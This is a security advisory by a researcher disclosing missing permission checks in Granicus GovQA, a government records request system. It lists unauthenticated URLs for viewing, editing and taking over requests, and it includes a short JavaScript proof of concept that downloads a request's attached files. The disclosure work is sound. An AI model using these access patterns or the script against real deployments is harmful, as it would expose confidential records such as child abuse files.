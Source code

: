 # Granicus GovQA

## Description

Insufficient permission check vulnerabilities in Granicus's GovQA allowed unauthorized access to view, edit, and change ownership of open records requests[^1], including restricted-access confidential records. By changing ownership of a request, an attacker could effectively deny a legitimate user's access to that request. The vulnerabilities affected various deployments, including numerous Departments of Children and Family Services or their equivalents, which handle highly sensitive records of domestic violence and sexual abuse allegations against children.

## Details

The vulnerabilities allowed attackers to perform several unauthorized actions, as detailed below.

- To view request details, an attacker could access `RequestOpen.aspx?rid=<requestId>` or `RequestOpenCI.aspx?rid=<requestId>`, allowing them to view the name and other private information about the requester, as well as full details of the request.
- To edit request details, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to modify any field originally set by the requester.
- To change ownership of requests, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to manipulate the email field to assign ownership to their own account, another user's account, or to an email address not associated with an existing user.
- To download files attached to a request, which include those uploaded by the requester and the responding organization, an attacker could send a `POST` request to `RequestEdit.aspx/DownloadAll` with the data `{ itemId: <requestId> }`. This action would return a URL similar to `/temp/<requestId>.zip`, which could then be used to download the files. A proof of concept exploit is included below.

The sequential numbering of Request IDs makes it trivial for attackers to discover other requests, posing future risk to the system.

In a clear effort to protect its brand value, Granicus has deemed this issue low severity[^2], showcasing an egregious disregard for industry-standards, such as the Common Vulnerability Scoring System (CVSS).

CVSS: 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Timeline

- 2024-01-06 - Vulnerabilities discovered in GovQA.
- 2024-01-08 - Granicus notified that vulnerabilities exist in GovQA.
- 2024-02-27 - Vulnerability details reported to Granicus.
- 2024-03-04 - Granicus confirms receipt of report.
- 2024-03-04 - Vulnerabilities confirmed fixed.

## Proof of Concept

```JavaScript
/*
 * Download all files for the request currently being viewed.
 * No authentication is required.
 */
DownloadFiles((new URL(window.location)).searchParams.get('rid'));

async function DownloadFiles(itemId) {
  const result = await fetch("RequestEdit.aspx/DownloadAll", {
    method: "POST",
    body: JSON.stringify({
      itemId: itemId
    }),
    headers: {"Content-Type": "application/json; charset=utf-8"}
  })
  if (result.status !== 200) {
      console.log(`Unable to download archive for ${itemId}.`);
      return;
  }
  const json = await result.json();
  console.log(`Attempting to download ${json.d}`);
  window.location=`.${json.d}`;
}
```

## Acknowledgements

- [Jaku](https://twitter.com/Jaku), founder of [Crowd Control](https://crowdcontrol.live/), who frequently offers his cybersecurity wisdom and experience.
- [Johnny Xmas](https://linktr.ee/johnnyxmas), [Burbsec](https://burbsec.com/) President, who has long provided guidance and acted as the voice of reason.
- [David DiMolfetta](https://www.nextgov.com/voices/david-dimolfetta/25968/) from [Nextgov/FCW](https://www.nextgov.com/), who immediately understood the severity of these vulnerabilities, took them to his editors, and worked tirelessly on his article[^3].
- [Zack Whittaker](https://techcrunch.com/author/zack-whittaker/) from [TechCrunch](https://techcrunch.com), who graciously allows me to rant about cybersecurity.
- [Brendon Keefe](https://www.atlantanewsfirst.com/authors/brendan.keefe/) from [Atlanta News First](https://www.atlantanewsfirst.com/), who retroactively permitted me to use his open records request for testing.
- The [CISA CVD Team](https://www.cisa.gov/coordinated-vulnerability-disclosure-process) assisted with the coordination of these vulnerabilities.

## Contact

[Jason Parker](https://linktr.ee/northantara)

- Email: [north@ꩰ.com](mailto:north@ꩰ.com)
- Press: [press@jeltz.org](mailto:press@jeltz.org)
- Mastodon: [@north@ꩰ.com](https://ꩰ.com/@north)

## Sponsorship

- If you enjoy my work, consider becoming a sponsor on [Patreon](https://patreon.com/northantara) or [GitHub](https://github.com/sponsors/qwell/), and/or consider donating to the [Electronic Frontier Foundation](https://eff.org/donate) or [St. Jude](https://www.stjude.org/donate). Many hours of unpaid labor have been put into researching and disclosing these vulnerabilities.

[^1]: _The term "open" in "open records requests" can be misleading, as not all "open" requests are intended for public access. Many state and local governments have exceptions regarding the types of information that can be requested and the individuals permitted to access it. For instance, individuals directly affected by a record may have a legal right to request access regardless of public release exemptions. However, accessing such requests may pose security risks, as sensitive information could be downloaded by attackers. Furthermore, different states have varying requirements for requesting access, with some jurisdictions requiring proof of identity or residency. For example, Tennessee mandates requestors to upload a copy of their State ID to prove residency, potentially exposing personal information to unauthorized access._

<!-- -->

[^2]: _If Granicus considers the leakage of explicit records describing the sexual abuse of children to be of low severity, I shudder to think what they might consider to be of medium or high severity._

<!-- -->

[^3]: _[Link and article headline TBD.]()_
